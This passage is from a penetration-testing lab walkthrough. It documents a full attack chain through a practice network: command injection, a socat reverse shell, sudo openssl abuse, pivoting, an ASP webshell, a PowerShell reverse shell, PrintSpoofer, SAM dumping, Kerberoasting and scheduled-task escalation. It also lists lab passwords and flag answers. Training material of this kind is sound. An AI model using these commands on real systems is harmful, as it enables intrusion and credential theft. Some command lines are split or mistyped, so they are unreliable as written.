(localhost) will be tested, therefore we always get 'Sucsess'(which the printing
of which can be client side response and even comes from the server as it
appears even when the interceptor is on). Anyway lets get the request to a
repeater for some trial and error:

For example when I changed in the request itself (and not the terminal) the IP
to '8.8.8.8' – we got the actual response – no connection.
We also got the genuine command response.
From here to command injection the path is short: lets try enter the next
parameter: '127.0.0.1%0als'
Where '%0a' is the ascii for new space – a method to bypass restrictions put in
place:

Here is the flag, the obvious thing to try is to obtain it with
'127.0.0.1%0acat%2000112233_flag.txt', it wont work, as there are protections
against ' ' (space), or even the URL encoded version of it '%20' .


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


We will instead use the '$IFS' or 'Internal Field Separator' – environment
variable which exists in unix-like which serves as character(s) used to split input
into words. By default, $IFS contains a space, a tab, and a newline character .
So we will attempt the parameter: '127.0.0.1%0acat${IFS}00112233_flag.txt'


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


### Initial Access

> **Lab Question (Page 40)**: Submit the contents of the flag.txt file in the /home/srvadm directory.
>
> **Flag / Answer**: `b447c27a00e3a348881b0030177000cd`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we continue from where we left of in the last question (the command
injection establishement in 'monitoring.inlanefreight.local') – we will use
'socat' to establish reverse shell to the pwnbox. First lets confirm 'socat' indeed
exists in the target machine, we will use the payload:
'127.0.0.1%0awhich${IFS}socat':

Here it is.
Now, lets initiate netcat listener in the pwnbox:
```bash
nc -lnvp 4444
```


And on the repeater, we enter the payload:
'127.0.0.1%0asocat${IFS}TCP4:10.10.14.135:4444${IFS}EXEC:bash'


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


*_Figure 40.2 — Lab execution and output verification (Page 40)_*


*_Figure 40.3 — Lab execution and output verification (Page 40)_*


### The Response box is empty.. but checking the listener

The Response box is empty.. but checking the listener:

We got shell! Now without the restrictions interferrences:

We can obtain the flag at once.


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


### Post-Exploitation Persistence

> **Lab Question (Page 42)**: Escalate privileges on the target host and submit the contents of the flag.txt file in the /root directory.
>
> **Flag / Answer**: `a34985b5976072c3c148abc751671302`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off in the previous question (obtaining
reverses shell to 'monitoring.inlanefreight.local') – first lets try to improve our
terminal, using socat.
First lets initiate socat listener on out attacker machine:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4445
```


Now on the shell we obtained, lets run the command:
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane
```
tcp:10.10.14.135:4445
here Is the target reverse shell screenshot:

With the command is marked with the red arrow.

And on the listener attacking machine:

We have a second shell.
The reason we did this is to obtain a much better, more comfortable terminal.


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


*_Figure 42.3 — Lab execution and output verification (Page 42)_*


### to see to what groups we belong

*note – we can also use
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


To improve the terminal (locally, without second listener), but while it is better
than the original terminal, it is inferior to the socat terminal.
From the section 'But we're going to try something a bit different using Socat. The reason
for doing this is to get a proper terminal so we can run commands like su, sudo, ssh, use
command completion, and open a text editor if needed.' . *
Much better.
Lets run
id
to see to what groups we belong:

We belong to the group 'adm'.
Looking to Linux Privilege Escalation writeup, section 'Privileged Groups' (page
3) – adm group can access to /var/log.
We will use the tool aureport (which shoule be pre installed in the target
machine, we can always confirm with 'which aureport'). To work through the
system logs and get us a summarized output of it:
aureport --tty | less


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


### to 'sevadm'

We can observe in lines 3 and 4 there was a login with the credentials:
'srvadm:ILFreightnixadm!'
Ok lets exit from the 'less' mode with entering 'q' , and then we can su our way
to 'sevadm':
su srvadm
and entering the password

Lets get proper shell with 'bash':

And check what sudo privileges we have with
```bash
sudo -l
```


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


*_Figure 44.3 — Lab execution and output verification (Page 44)_*


### ways, we will use the file read

We can run /use/bin/openssl with root privileges.
Looking at openssl privileges escalation methods, there are several possible
ways, we will use the file read:

Where LFILE=/root/flag.txt
LFILE=/root/flag.txt
```bash
sudo openssl enc -in "$LFILE"
```


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


*_Figure 45.3 — Lab execution and output verification (Page 45)_*


### Internal Information Gathering

> **Lab Question (Page 46)**: Mount an NFS share and find a flag.txt file. Submit the contents as your answer.
>
> **Flag / Answer**: `bf22a1d0acfca4af517e1417a80e92d1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off in the previous question (obtaining
/root/flag.txt from 'monitoring.inlanefreight.local' initial access) – we will need
to investigate the root access further, lets use the same sudo method to read
root's private ssh key: '/root/.ssh/id_rsa'
LFILE='/root/.ssh/id_rsa'
```bash
sudo openssl enc -in "$LFILE"
```
*make sure there are quotation marks around the file path, unlike last time. *
And here is the beginning of the key:

The whole key can be accessed here, for a direct access to root ssh, without
redoing all of the prior steps, if needed.
Lets put it in a file called 'id_rsa' in the attacking pwnbox, set the chmod to 600
touch id_rsa
```bash
echo '<private_key content>' > id_rsa
chmod 600 id_rsa
```


* *


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


*_Figure 46.2 — Lab execution and output verification (Page 46)_*


*_Figure 46.3 — Lab execution and output verification (Page 46)_*


### And then

And then:
```bash
ssh -i ./id_rsa root@monitoring.inlanefreight.local
```


*
*

We have a root shell!

Now, lets run
route -n
to observe different networks the target machine is part of:

The one relevant for us is the interface 'ens192' , with the network address of
'172.16.0.0/16', lets examine that network and see what we can find.

Now, the target machine lacks the tools that might be required for proper
examination, so we will establish pivoting from the attacking pwnbox to the
target network through the target machine, that we now know (from the ssh
shell) its called 'dmz01' – so we can directly communicate with any machine
within the target network, from our pwnbox.


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


*_Figure 47.3 — Lab execution and output verification (Page 47)_*


### machine, using the command

#### Technical Methodology & Exploit Execution:

sshuttle -r root@monitoring.inlanefreight.local
172.16.8.0/24 --ssh-cmd="ssh -i id_rsa"
*basically running the ssh with the sshuttle and gain the pivoting on the subnet
'172.16.8.0/24 (a subnet of ens192 marked above).*:

Now – sshuttle forwards TCP connections only, it means pinging devices in the
internal network WILL NOT WORK with sshuttle.


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


### and sshuttle handles TCP traffic)

We will get to the shuttle later on, first lets run a network scan – for that we
will go back to the terminal with the established root ssh, and run the script:
for i in $(seq 254); do ping 172.16.8.$i -c1 -W1 & done |
```bash
grep from
```
*make sure to use it from the root ssh we established, as it will not work from
the pwnbox, even with the sshuttle (because ping doesn't uses TCP but ICMP ,
and sshuttle handles TCP traffic):


Running
ifconfig ens192


Will tell us that the dmz01 IP on the internal network is '172.16.8.120' .
*it can also be observed in the ssh welcome message. *

Next, still in the 'dmz01' – put the found IP's in a file called 'alive_hosts' (there
is no 'nano' text editor in 'dmz01' so we can either use 'vim' text editor, or
bring it from the pwnbox, either way it should look like this:

*** at real time during doing the module, I couldn't figure out how to use
```bash
nmap scan with shuttle, however revisiting the module months later – using
nmap scan with shuttle requires the use of the flags '-sT' and '-Pn'.
```
We will now proceed with the second 2 – Ligolo, which will be used to get the
solution. ***


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


*_Figure 49.2 — Lab execution and output verification (Page 49)_*


*_Figure 49.3 — Lab execution and output verification (Page 49)_*


### Which by the time of this writing is NOT YET OPERATIONAL

Method 2 – Ligolo:
*** first – disclaimer – I've actually tried that method first (before the sshuttle)
– the released files can be downloaded here. Now – by the time of this writeup
writing (8.8.2024), there is the newest 0.7-alpha version, released 3 days ago:

Which by the time of this writing is NOT YET OPERATIONAL:

Still a lot of bugs (which I've encountered myself).
We will instead scroll download and use Ligolo-ng v0.6.2:

An explaination on Ligolo can also be found in Active Directory Enumeration &
Attacks writeup I made (pages 89-93), however in that writeup the ligolo was
implemented on windows target machine, and not Linux target machine like in
here – so the Ligolo setting will be covered here in full.
***


*_Figure 50.1 — Lab execution and output verification (Page 50)_*


*_Figure 50.2 — Lab execution and output verification (Page 50)_*


*_Figure 50.3 — Lab execution and output verification (Page 50)_*


### clicking the Assets button

#### Technical Methodology & Exploit Execution:

```bash
scp -i id_rsa agent.gz
```
root@monitoring.inlanefreight.local:/root
*where id_rsa is the private key, agent.gz is the transferred file and '/root' is
the destination's path. *
pwnbox:

dmz01:

Lets extract it on the dmz01 using the command:
```bash
tar -xvf agent.gz
```


*_Figure 51.1 — Lab execution and output verification (Page 51)_*


*_Figure 51.2 — Lab execution and output verification (Page 51)_*


*_Figure 51.3 — Lab execution and output verification (Page 51)_*


### Next we need to ready the tunnel, we will use the commands

#### Technical Methodology & Exploit Execution:

```bash
chmod u+x agent
```


Now the agent is ready to be executed, but we will not execute it yet.

On the pwnbox, lets extract the proxy.gz in a similar manner:
```bash
tar -xvf proxy.gz
```


*in the pwnbox the proxy file already should have execution permission, but if
it doesn't – run 'chmod u+x proxy' . *

Next we need to ready the tunnel, we will use the commands:
```bash
sudo ip tuntap add user <attacking-box-user> mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 172.16.8.0/24 dev ligolo
```
*remember that '172.16.8.0/24' is the target network address. *
*for more explanations about the commands: - go to this video. *


*_Figure 52.1 — Lab execution and output verification (Page 52)_*


*_Figure 52.2 — Lab execution and output verification (Page 52)_*


*_Figure 52.3 — Lab execution and output verification (Page 52)_*


*_Figure 52.4 — Lab execution and output verification (Page 52)_*


### Then, we run the proxy

Then, we run the proxy:
./proxy -selfcert


Now we are ready to run the agent in dmz01:
./agent -connect <attacker-IP>:11601 -ignore-cert


And on the proxy – we will get agent joined:

But the pivoting is not ready yet – on the ligolo proxy CLI we will enter the
commands:
session
1
start


*_Figure 53.1 — Lab execution and output verification (Page 53)_*


*_Figure 53.2 — Lab execution and output verification (Page 53)_*


*_Figure 53.3 — Lab execution and output verification (Page 53)_*


### which we know is dmz01 IP in ens192

#### Technical Methodology & Exploit Execution:

fping -asgq 172.16.8.0/24 > alive_hosts.txt


*_Figure 54.1 — Lab execution and output verification (Page 54)_*


*_Figure 54.2 — Lab execution and output verification (Page 54)_*


*_Figure 54.3 — Lab execution and output verification (Page 54)_*


### 'alive_hosts.txt'

#### Technical Methodology & Exploit Execution:

```bash
nmap --open -iL alive_hosts.txt -sV -sT p -1-10000
```


*_Figure 55.1 — Lab execution and output verification (Page 55)_*


*_Figure 55.2 — Lab execution and output verification (Page 55)_*


*_Figure 55.3 — Lab execution and output verification (Page 55)_*


172.16.8.3 is the Domain controller, it is running Active Directory related
Services (Kerberos, LDAP , etc..).
172.16.8.20 runs SMB, rpc, RDP , nlockmgr and http website.
172.16.8.50 runs SMB, RPC, RDP and http proxy in port 8080.

We will go with the 172.16.8.20 nlockmgr server (port 2049).
Nlockmgr service is a service that its purpose is to make sure only one client at
a time accesses the server resources – NFS (network file system).
For further details about the server, you can find it in the Footprinting module
writeup I made, page 34.


*_Figure 56.1 — Lab execution and output verification (Page 56)_*


*_Figure 56.2 — Lab execution and output verification (Page 56)_*


### Lets run the command

#### Technical Methodology & Exploit Execution:

```bash
showmount -e 172.16.8.20
```


There is this this file system 'DEV01', accessible by everyone.
Lets mount it on our pwnbox, we will use the commands:
```bash
sudo mkdir -p DEV01
sudo mount -t nfs 172.16.8.20:/DEV01 DEV01
ls -la DEV01
```


Here is our flag:


*_Figure 57.1 — Lab execution and output verification (Page 57)_*


*_Figure 57.2 — Lab execution and output verification (Page 57)_*


*_Figure 57.3 — Lab execution and output verification (Page 57)_*


### Exploitation & Privilege Escalation

> **Lab Question (Page 58)**: Retrieve the contents of the SAM database on the DEV01 host. Submit the NT hash of the administrator user as your answer .
>
> **Flag / Answer**: `0e20798f695ab0d04bc138b22344cea8`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off from the previous question
(establishing pivot from the pwnbox to the target network via 'dmz01')
We will go to the 172.16.8.20 http service, lets enter it in the browser:

It is a DNN - DotNetDuke (basically .NET version of wordpress)
Lets attempt to register a user:

And we are getting this message:


*_Figure 58.1 — Lab execution and output verification (Page 58)_*


*_Figure 58.2 — Lab execution and output verification (Page 58)_*


*_Figure 58.3 — Lab execution and output verification (Page 58)_*


### then enter the credentials in the login box)

Our registered user is awaiting for Administrator verification, which we will not
are going to get.
We will have to use another way.
Now, the sections's guide provide for us the Admiinistrator credentials,
'Administrator:D0tn31Nuk3R0ck$$@123'.
Lets login (first enter the red-marked login button on the top-right corner, and
then enter the credentials in the login box):


And we are in:

We proceed to the settings icon:


*_Figure 59.1 — Lab execution and output verification (Page 59)_*


*_Figure 59.2 — Lab execution and output verification (Page 59)_*


### And select 'SQL Console'

And select 'SQL Console':

First we will enable cmd command in the sql query, for that we will run the
sequence of commands:


*_Figure 60.1 — Lab execution and output verification (Page 60)_*


*_Figure 60.2 — Lab execution and output verification (Page 60)_*


### to see what user we are in

EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE


When that is enabled, lets run
xp_cmdshell 'whoami'
to see what user we are in :

We are the user 'sqlexpress' on 'DEV01' ('172.16.8.20', as established in the last
question, it can be confirmed with the command 'xp_cmdshell 'hostname'').


*_Figure 61.1 — Lab execution and output verification (Page 61)_*


*_Figure 61.2 — Lab execution and output verification (Page 61)_*


### Lets move to 'Security' tab

'sqlexpress' user cannot retrieve SAM. To retrieve the contents of SAM, we will
have to elevate our privileges.
First lets obtain reverse shell to 'sqlexpress', the usual method of using
'revshell' payload generator and then using xp_cmdshell with powershell
reverse shell command will not work to the pwnbox, so we will have to find
another way to obtain RCE.
We will use 2 methods, method 1 is use the website interface to get a
webshell, method 2 is to use the sql CLI to get a reverse shell to the 'dmz01'
(we can not initiate reverse shell to the pwnbox as the 'DEV01' routing is not
configured to get its networking there)
Method 1:
Lets move to 'Security' tab:

Then in the page:

To More, and then:


*_Figure 62.1 — Lab execution and output verification (Page 62)_*


*_Figure 62.2 — Lab execution and output verification (Page 62)_*


### In it

MOTE SECURITY SETTINGS.

In it:

*
*

We scroll down to 'Allowable File Extension' , and see what file formats are
allowed to be uploaded. We will add the formats: 'asp, aspx' (active server
page, active server page extended, they are used to for the server to generate
dynamic html content to the client):

Among their functions, they can be used to execute code on the server side.
We will use that to obtain our reverse shell.
So let's save the settings:


*_Figure 63.1 — Lab execution and output verification (Page 63)_*


*_Figure 63.2 — Lab execution and output verification (Page 63)_*


*_Figure 63.3 — Lab execution and output verification (Page 63)_*


*_Figure 63.4 — Lab execution and output verification (Page 63)_*


### When that's done, we will go to

When that's done, we will go to:
http://172.16.8.20/admin/file-management
and select 'Upload Files':

The file we will upload is this asp webshell.
Lets enter it in the browser  →  right click the page  →  select 'Save Page As':


*_Figure 64.1 — Lab execution and output verification (Page 64)_*


*_Figure 64.2 — Lab execution and output verification (Page 64)_*


*_Figure 64.3 — Lab execution and output verification (Page 64)_*


### Back to the file upload page

We will save it as 'webshell.asp'.

Back to the file upload page:

We will click to browse (or drag) the saved webshell.asp.
And confirm the page is indeed uploaded:


*_Figure 65.1 — Lab execution and output verification (Page 65)_*


*_Figure 65.2 — Lab execution and output verification (Page 65)_*


*_Figure 65.3 — Lab execution and output verification (Page 65)_*


### We will right click it, and select 'Get URL'

We will right click it, and select 'Get URL':

We copy the result:

Replace the 'ver' parameter with 'cmd' , and lets try to run 'whoami':

We can also use the input box in the top of the page to run commands.
Now, we will stop here and proceed on method 2 using the 'dmz01' and te tool
'netcat' . However, if the target machine does not has netcat, we can use this
method.


*_Figure 66.1 — Lab execution and output verification (Page 66)_*


*_Figure 66.2 — Lab execution and output verification (Page 66)_*


*_Figure 66.3 — Lab execution and output verification (Page 66)_*


### *reminder

Method 2:
Lets initiate another ssh connection to 'dmz01'
*reminder:
```bash
ssh -i ./id_rsa root@monitoring.inlanefreight.local
```
*
Once in, we will initiate netcat there (which is preinstalled on the target
machine) (if netcat is not installed, you may proceed with method 1, simply
method 2 is faster):
```bash
nc -lnvp 4444
```


And on the sql interface, we will use 'revshell':

```bash
Set the IP for dmz internal interface IP: '172.16.8.120', port 4444.
```
And select Powershell #3 (Base64)


*_Figure 67.1 — Lab execution and output verification (Page 67)_*


*_Figure 67.2 — Lab execution and output verification (Page 67)_*


*_Figure 67.3 — Lab execution and output verification (Page 67)_*


### And on the sql CLI, we enter the command

#### Technical Methodology & Exploit Execution:

xp_cmdshell 'powershell -e "<base64 payload>"'


And run the script, on the sql CLI we will get error message:

But on the netcat listener

We have a shell!
Lets run
```bash
whoami
```
and
```bash
whoami /priv
```
to determine who we are and our privileges:


*_Figure 68.1 — Lab execution and output verification (Page 68)_*


*_Figure 68.2 — Lab execution and output verification (Page 68)_*


*_Figure 68.3 — Lab execution and output verification (Page 68)_*


### Then, lets upload it to the 'dmz01' with the command

#### Technical Methodology & Exploit Execution:

```bash
scp -i id_rsa PrintSpoofer64.exe
```
root@monitoring.inlanefreight.local:/root

```bash
scp -i id_rsa nc64.exe
```
root@monitoring.inlanefreight.local:/root


now we will get the executables from 'dmz01' to 'DEV01'.
We will open another ssh session to 'dmz01'


*_Figure 69.1 — Lab execution and output verification (Page 69)_*


### *reminder

#### Technical Methodology & Exploit Execution:

```bash
cd C:\Windows\Temp
```

```bash
iwr -uri http://172.16.8.120:20000/PrintSpoofer64.exe -
```
outfile PrintSpoofer64.exe

```bash
iwr -uri http://172.16.8.120:20000/nc64.exe -outfile
```
nc64.exe

now when both are ready, we will initiate another ssh to dmz01(!),
in it – we will set netcat listener to port 4445:
```bash
nc -lnvp 4445
```


That listener will accept the system reverse shell from DEV01.

And on DEV01 existing reverse shell, we will run the PrintSpoofer exploit,
generating system reverse shell to the port 4445 listener on dmz01, using the
command:
.\PrintSpoofer64.exe -c ".\nc64.exe 172.16.8.120 4445 -e
cmd"


*_Figure 70.1 — Lab execution and output verification (Page 70)_*


### And on the nc 4445 listener

And on the nc 4445 listener:

We have a system reverse shell!
Lets make it powershell:

And cd our way to 'C:\DotNetNuke\Portals\0':
```bash
cd C:\DotNetNuke\Portals\0
```


This path serves as
http://172.16.8.20/admin/file-management
root directory:


*_Figure 71.1 — Lab execution and output verification (Page 71)_*


*_Figure 71.2 — Lab execution and output verification (Page 71)_*


*_Figure 71.3 — Lab execution and output verification (Page 71)_*


*_Figure 71.4 — Lab execution and output verification (Page 71)_*


### We will use the commands

Whatever is in the path, will be available to download to the pwnbox from this
page.
We will need to download the files SYSTEM, SAM, SECURITY (which are fully
detailed in 'Windows Privilege Escalation' page 90).
We will use the commands:
reg save HKLM\SAM .\SAM
reg save HKLM\SECURITY .\SECURITY
reg save HKLM\SYSTEM .\SYSTEM


Now, as the URL only permits download files with certain extensions, lets give
the files 'png' extensions, we will remove the extensions on the pwnbox.
mv SAM SAM.png
mv SECURITY SECURITY.png
mv SYSTEM SYSTEM.png


*_Figure 72.1 — Lab execution and output verification (Page 72)_*


*_Figure 72.2 — Lab execution and output verification (Page 72)_*


### refresh the page

refresh the page:

Here are the files.
Lets download them to the pwnbox:

(yes, we will have to it one by one).


On the saving page we will remove the 'png' extension.


*_Figure 73.1 — Lab execution and output verification (Page 73)_*


*_Figure 73.2 — Lab execution and output verification (Page 73)_*


*_Figure 73.3 — Lab execution and output verification (Page 73)_*


### the files are successfully downloaded to the pwnbox

> **Lab Question (Page 74)**: Escalate privileges on the DEV01 host. Submit the contents of the flag.txt file on the Administrator Desktop.
>
> **Flag / Answer**: `K33p_0n_sp00fing!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

secretsdump.py -system SYSTEM -security SECURITY -sam SAM
local
to use the tool 'secretsdump.py' extract the hashes from the files


Question: Escalate privileges on the DEV01 host. Submit the contents of the
flag.txt file on the Administrator Desktop.
Answer: K33p_0n_sp00fing!
Method: On the system reverse shell obtained in the previous question, we
simply cat the flag:
```bash
cat C:\Users\Administrator\Desktop\flag.txt
```


*_Figure 74.1 — Lab execution and output verification (Page 74)_*


*_Figure 74.2 — Lab execution and output verification (Page 74)_*


*_Figure 74.3 — Lab execution and output verification (Page 74)_*


### Lateral Movement

> **Lab Question (Page 75)**: Find a backup script that contains the password for the backupadm user. Submit this user's password as your answer .
>
> **Flag / Answer**: `!qazXSW@`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from where we left off from the previous question
(establishing system shell on 'DEV01') – we are given the credentials of
'hporter:Gr8hambino!', supposedly from the LSA content.

Now, we will start Active Directory enumeration.
In the website, we will add the extension of 'ps.1' to the list of allowed
extensions (the method for doing that was thoroughly covered in the previous
question)
http://172.16.8.20

and when 'ps1' Files are upload eligible, we will download to the pwnbox
PowerView.ps1
We will use the
http://172.16.8.20/admin/file-management
interface to upload the PowerView to 'C:\DotNetNuke\Portals\0' in DEV01.
(again, the method for doing that was thoroughly covered in the previous
question).

Once the tool is ready to use in the DEV01 reverse shell, we will inspect for the
user 'hporter' rights within the active directory, we will use the sequence of
commands:
```bash
Import-Module .\PowerView.ps1
```

$sid = Convert-NameToSid hporter

Get-DomainObjectACL -ResolveGUIDs -Identity * |
?{$_.SecurityIdentifier -eq $sid}


### Lets check what users can RDP to DEV01, using the command

#### Technical Methodology & Exploit Execution:

Invoke-Command -ComputerName ACADEMY-AEN-DEV01 -ScriptBlock
{ Get-LocalGroupMember -Group 'Remote Desktop Users' }


We can observe that all Domain Users ('hporter' included), can RDP to DEV01.


*_Figure 76.1 — Lab execution and output verification (Page 76)_*


*_Figure 76.2 — Lab execution and output verification (Page 76)_*


### Well, Lets RDP

Well, Lets RDP:
```bash
xfreerdp /v:172.16.8.20 /u:hporter /p:Gr8hambino! /dynamic-
```
resolution


When RDP , we get this terminal
Lets set it to powershell:
powershell
then cd to C:\DotNetNuke\Portals\0
```bash
cd C:\DotNetNuke\Portals\0
```

load the Powerview module (yes, it has to be done again as it is a different
session), and change 'ssmalls' password:
```bash
Import-Module .\PowerView.ps1
```

Set-DomainUserPassword -Identity ssmalls -AccountPassword
(ConvertTo-SecureString 'jonsnow' -AsPlainText -Force ) -
Verbose


Password changed! Now 'ssmalls' password's is 'jonsnow'


*_Figure 77.1 — Lab execution and output verification (Page 77)_*


*_Figure 77.2 — Lab execution and output verification (Page 77)_*


### shares (what 'hporter' could not, I tell you up-front)

#### Technical Methodology & Exploit Execution:

```bash
crackmapexec smb 172.16.8.3 -u ssmalls -p jonsnow --shares
```


We have in that address (which we can observe its name is 'DC01' the share
'Department Shares' available to read for 'ssmalls'.
Lets get its content to the pwnbox using the commands:
mkdir imported_data

```bash
sudo mount -t cifs //172.16.8.3/"Department Shares"
```
imported_data -o username=ssmalls,password=jonsnow


Giving a view on the 'imported_data directory':

There is a lot to uncover, so lets look for files which contain the 'backupadm'
keyword. We will use the command:
```bash
grep -rl "backupadm" ./imported_data
```


*_Figure 78.1 — Lab execution and output verification (Page 78)_*


*_Figure 78.2 — Lab execution and output verification (Page 78)_*


*_Figure 78.3 — Lab execution and output verification (Page 78)_*


*_Figure 78.4 — Lab execution and output verification (Page 78)_*


### Lets inspect it

> **Lab Question (Page 79)**: Perform a Kerberoasting attack and retrieve TGS tickets for all accounts set as SPNs. Crack the TGS of the backupjob user and submit the cleartext password as your answer.
>
> **Flag / Answer**: `lucky7`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

back on the the DEV01 reverse shell (it can be either the system one,
the initial sqlexpress one, or hporter RDP one – doesn't matters).
we will run SPN enumeration (what is SPN? View in Active Directory
Enumeration & Attacks writeup – section 'Kerberoasting - from Linux' (page
24)), using the command:
```bash
Import-Module .\PowerView.ps1
```

Get-DomainUser * -SPN -verbose |  Get-DomainSPNTicket -
Format Hashcat | Export-Csv .\ilfreight_spns.csv -
NoTypeInformation
*a. make sure you are in C:\DotNetNuke\Portals\0.
b. I used here in the system shell for convenience purposes, but any shell to
DEV01 should work.


*_Figure 79.1 — Lab execution and output verification (Page 79)_*


### Lets add 'csv' to the allowed format

c. the command will export the information to CSV 'ilfreight_spns.csv'
outputfile, which we will download to the pwnbox (that's why we had to run
the command in that path.
d. the PowerView module should already be loaded, but I still added the
command just in case reloading is required, it will not appear in the following
screenshot though. *

The command will output all of the domain's SPN tickets to an output csv file.

Lets add 'csv' to the allowed format:

*reminder: settings  →  Security  →  More  →  More Security Settings. *
And refresh
http://172.16.8.20/admin/file-management


Here is the output csv file, lets download it to the pwnbox.


*_Figure 80.1 — Lab execution and output verification (Page 80)_*


*_Figure 80.2 — Lab execution and output verification (Page 80)_*


*_Figure 80.3 — Lab execution and output verification (Page 80)_*


### identified the hash

Once the output file is within the pwnbox, we will have to get to backupjob
hash to a file, using 'libreoffice' gave some troubles for me in that, so I did
```bash
cat ilfreight_spns.cve | grep backupjob
```
identified the hash:

*
*

, and echoed it:
```bash
echo '$krb5tgs$23$*backupjob$....F9E' > hash.txt
```
to hash.txt

We will also download to the pwnbox rockyou wordlist.
When both are ready, lets run hashcat cracking with -m 13100 (for
```bash
hashcat -m 13100 hash.txt rockyou.txt
```


*_Figure 81.1 — Lab execution and output verification (Page 81)_*


*_Figure 81.2 — Lab execution and output verification (Page 81)_*


*_Figure 81.3 — Lab execution and output verification (Page 81)_*


### Lets try connect to MS01 with it, using the command

> **Lab Question (Page 82)**: Escalate privileges on the MS01 host and submit the contents of the flag.txt file on the Administrator Desktop.
>
> **Flag / Answer**: `33a9d46de4015e7b3b0ad592a9394720`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, by the process of elimination – we can immediately infer that
MS01 is 172.16.8.50. and from the nmap scan we know it has WinRM (port
5985) open.
Lets try connect to MS01 with it, using the command:
```bash
evil-winrm -i 172.16.8.50 -u backupadm -p '!qazXSW@'
```
*note – RDP wont work here. *

Now as we do not know where to look, lets conduct a system-wide search of
'password', we will use the command:
Get-ChildItem -Path C:\ -Recurse -ErrorAction
SilentlyContinue -Force | Select-String -Pattern "password"
-CaseSensitive:$false -ErrorAction SilentlyContinue |
Select-Object -ExpandProperty Path -Unique


Inspecting 'C:\panther\unattend.xml':
```bash
cat C:\panther\unattend.xml
```


*
*


*_Figure 82.1 — Lab execution and output verification (Page 82)_*


*_Figure 82.2 — Lab execution and output verification (Page 82)_*


*_Figure 82.3 — Lab execution and output verification (Page 82)_*


### Lets check the user

We have the credentials 'ilfserveradm:Sys26Admin'.
Lets check the user:
```bash
net user ilfserveradm
```


*
*

It has RDP access to the machine.
Very well then:
```bash
xfreerdp /v:172.16.8.50 /u:ilfserveradm /p:Sys26Admin
```
/dynamic-resolution


*_Figure 83.1 — Lab execution and output verification (Page 83)_*


*_Figure 83.2 — Lab execution and output verification (Page 83)_*


*_Figure 83.3 — Lab execution and output verification (Page 83)_*


### Simple google search

Here we are.
Lets run application enumeration with powershell, using the commands:
$INSTALLED = Get-ItemProperty
HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*
| Select-Object DisplayName, DisplayVersion, InstallLocation

$INSTALLED += Get-ItemProperty
HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\
Uninstall\* | Select-Object DisplayName, DisplayVersion,
InstallLocation

$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -
Property DisplayName -Unique | Format-Table -AutoSize


The 'Sysax FTP Automation 6' looks interesting.
Simple google search:


*_Figure 84.1 — Lab execution and output verification (Page 84)_*


*_Figure 84.2 — Lab execution and output verification (Page 84)_*


### execution file) file called 'pwn.bat', in it the command

#### Technical Methodology & Exploit Execution:

```bash
net localgroup administrators ilfserveradm /add
```


*_Figure 85.1 — Lab execution and output verification (Page 85)_*


*_Figure 85.2 — Lab execution and output verification (Page 85)_*


### 'C:\Program Files (x86)\SysaxAutomation'

Lets open in File explorer the path in which the application is located -
'C:\Program Files (x86)\SysaxAutomation':

And we open 'sysaxschedscp.exe' (both cmd and double click will do).

We select 'Setup Scheduled/Triggered Tasks'.
→


*_Figure 86.1 — Lab execution and output verification (Page 86)_*


*_Figure 86.2 — Lab execution and output verification (Page 86)_*


Add Task (Triggered)  →

Lets give a name to our task, monitor the folder
'C:\Users\ilfserveradm\Documents' and check the 'Run task if a file is added to
the monitor folder or subfolder(s)' box'.
→


*_Figure 87.1 — Lab execution and output verification (Page 87)_*


*_Figure 87.2 — Lab execution and output verification (Page 87)_*


We select 'Run any other Program', and put in it our 'pwn.bat' program
('C:\Users\ilfserveradm\Documents\pwn.bat')
→

Uncheck 'Login as the following user to run task'
→  select 'Finish' and 'Save' for all following windows.

Basically what we did – is whenever a file is created/added in
'C:\Users\ilfserveradm\Documents' – pwn.bat is executed with Administrator
privileges, adding our user to the Administrator group.


*_Figure 88.1 — Lab execution and output verification (Page 88)_*


*_Figure 88.2 — Lab execution and output verification (Page 88)_*


### Lets add a file

Lets add a file:


Now lets check the Administrators group:
```bash
net localgroup administrators
```


Here we are!
Lets restart the machine for the modification to take effect:
shutdown /l

now we are free to go to the Administrator's Desktop:

And take the flag!


*_Figure 89.1 — Lab execution and output verification (Page 89)_*


*_Figure 89.2 — Lab execution and output verification (Page 89)_*


*_Figure 89.3 — Lab execution and output verification (Page 89)_*


*_Figure 89.4 — Lab execution and output verification (Page 89)_*


### when done, extract the zip

> **Lab Question (Page 90)**: Obtain the NTLMv2 password hash for the mpalledorous user and crack it to reveal the cleartext value. Submit the user's password as your answer .
>
> **Flag / Answer**: `1squints2`
{: .prompt-info }

